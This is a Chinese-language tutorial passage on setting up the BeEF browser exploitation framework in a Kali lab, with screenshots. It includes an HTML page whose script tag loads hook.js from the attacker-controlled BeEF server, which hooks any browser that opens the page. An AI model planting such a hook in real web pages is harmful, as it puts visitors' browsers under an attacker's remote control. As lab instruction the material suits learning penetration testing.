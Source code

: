 开启BeEF服务器（可以命令行beef-xss打开或者应用程序打开），接着用浏览器访问管理页面http://192.168.133.131:3000/ui/panel， 使用设置的用户/密码登录。

![20191102233805218](assets/20191102233805218.png)



接着访问有勾子的页面

```
http://192.168.133.131:3000/demos/basic.html 
```

这里的主机名和端口号要按照你设置的来修改， 这里要注意一下kali下beef版本的勾子不支持IE8，最新版或者旧一些的版本可以。所以要使用其他浏览器来访问有勾子的页面。
下面给出一个写有勾子的页面，把创建文件test.html，并把下面内容写到其中：

```
<html>
<head>
<script src='http://192.168.133.131:3000/hook.js'></script> <!-- 这里的主机和端口号，需要 和配置文件的一致。 --> 
</head> 
<body> Hello World </body> 
</html>
```

接着使用一个浏览器来打开，那么这个浏览器就会被hook了。 查看管理页面UI会是类似下面图：

![20191102234044339](assets/20191102234044339.png)

